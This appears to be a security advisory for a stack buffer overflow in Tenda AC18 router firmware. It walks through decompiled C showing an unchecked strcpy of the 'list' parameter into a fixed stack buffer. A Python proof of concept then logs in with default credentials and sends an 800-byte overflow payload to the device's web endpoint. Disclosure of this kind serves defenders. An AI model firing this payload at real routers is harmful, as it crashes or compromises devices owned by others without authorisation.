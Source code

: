 ## Tenda AC18 stack overflow vulnerability

### * Version

V15.03.05.19_multi (ac18_kf_V15.03.05.19(6318_)_cn.bin)

### * Firmware
[https://www.tenda.com.cn/download/detail-2683.html](https://www.tenda.com.cn/download/detail-2683.html)





### * Vulnerability Detail

In function formSetQosBand->FUN_0007db78, the content obtained by the program from the parameter "list" is passed to local_18, 
and then the local_18 as param_1 is passed to function FUN_0007dd20, then param_1 (local_14) is directly copied into the local_264 stack through the strcpy function.
There is no size check, so there is a stack overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.


```c
void formSetQosBand(undefined4 param_1)
{
 
  local_18 = FUN_0002ba8c(param_1,"list",&DAT_000e250c);
  FUN_0007dd20(local_18,"bandwidth.mode",L'\n');
  local_5c = 0;
 ...
}

undefined4 FUN_0007db78(char *param_1,undefined4 param_2,byte param_3)
{
  int iVar1;
  
  char *local_20;
  int local_1c;
  int local_18;
  char *local_14;
  
  memset(auStack100,0,0x40);
  memset(auStack356,0,0x100);
  memset(local_264,0,0x100);

  memset(auStack1676,0,0x400);

  memset(auStack1964,0,0x100);
  local_18 = 0;
  local_1c = 0;
  FUN_0007db3c();
  local_14 = param_1;
  do {
    while( true ) {
      local_20 = strchr(local_14,(uint)param_3);
      if (local_20 == (char *)0x0) goto LAB_0007e0a0;
      local_1c = 0;
      *local_20 = '\0';
      local_20 = local_20 + 1;
      memset(local_264,0,0x100);
      strcpy(local_264,local_14); //here is overflow
      if (local_264[0] == ';') {
        sscanf(local_264,";%[^;];%[^;];%[^;];%[^;];",&local_26c,&local_28c,&local_6ac,&local_69c);
      }
      else {
        sscanf(local_264,"%[^\r]\r%[^\r]\r%[^\r]\r%s",auStack1964,&local_28c,&local_6ac,&local_69c);
        local_1c = 1;
      }
```

### * POC
```python
import requests


cmd  = b'list=AAAAAAAAAAAA\n' + b'A' * 800


url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/SetNetControlList/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()


```
